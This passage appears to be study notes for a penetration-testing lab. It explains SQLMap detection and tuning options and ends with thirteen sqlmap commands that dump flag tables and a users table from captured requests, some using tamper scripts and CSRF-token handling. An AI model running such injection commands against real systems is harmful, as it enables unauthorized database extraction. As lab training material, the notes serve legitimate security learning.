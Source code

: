 For example, when dealing with a huge target response with a lot of dynamic content, subtle differences between `TRUE` and `FALSE` responses could be used for detection purposes. If the difference between `TRUE` and `FALSE` responses can be seen in the HTTP codes (e.g. `200` for `TRUE` and `500` for `FALSE`), the option `--code` could be used to fixate the detection of `TRUE` responses to a specific HTTP code (e.g. `--code=200`).

#### Titles

If the difference between responses can be seen by inspecting the HTTP page titles, the switch `--titles` could be used to instruct the detection mechanism to base the comparison based on the content of the HTML tag `<title>`.

#### Strings

In case of a specific string value appearing in `TRUE` responses (e.g. `success`), while absent in `FALSE` responses, the option `--string` could be used to fixate the detection based only on the appearance of that single value (e.g. `--string=success`).

#### Text-only

When dealing with a lot of hidden content, such as certain HTML page behaviors tags (e.g. `<script>`, `<style>`, `<meta>`, etc.), we can use the `--text-only` switch, which removes all the HTML tags, and bases the comparison only on the textual (i.e., visible) content.

#### Techniques

In some special cases, we have to narrow down the used payloads only to a certain type. For example, if the time-based blind payloads are causing trouble in the form of response timeouts, or if we want to force the usage of a specific SQLi payload type, the option `--technique` can specify the SQLi technique to be used.

For example, if we want to skip the time-based blind and stacking SQLi payloads and only test for the boolean-based blind, error-based, and UNION-query payloads, we can specify these techniques with `--technique=BEU`.

#### UNION SQLi Tuning

In some cases, `UNION` SQLi payloads require extra user-provided information to work. If we can manually find the exact number of columns of the vulnerable SQL query, we can provide this number to SQLMap with the option `--union-cols` (e.g. `--union-cols=17`). In case that the default "dummy" filling values used by SQLMap -`NULL` and random integer- are not compatible with values from results of the vulnerable SQL query, we can specify an alternative value instead (e.g. `--union-char='a'`).

Furthermore, in case there is a requirement to use an appendix at the end of a `UNION` query in the form of the `FROM <table>` (e.g., in case of Oracle), we can set it with the option `--union-from` (e.g. `--union-from=users`).  
Failing to use the proper `FROM` appendix automatically could be due to the inability to detect the DBMS name before its usage.

Commands as per Risk and Levels : 
1. `sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch`
2. `sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch`
3. `sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch`
4. `sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb --no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries`
5. `sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='`)'`
6. `sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL`
7. `sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb -dbms=MySQL --batch`
8. `sqlmap -r Case1.txt --threads 10 --search -C style --batch`
9. `sqlmap -r Case1.txt --threads 10 --dump -D testdb -T users --batch`
10. `sqlmap -r Case8.txt --csrf-token=t0ken -T flag8 --dump --risk=3 --level=5 --batch`
11. `sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid`
12. `sqlmap -r Case10.txt -T flag10 --dump --risk=3 --level=5 --batch`
13. `sqlmap -r Case11.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10`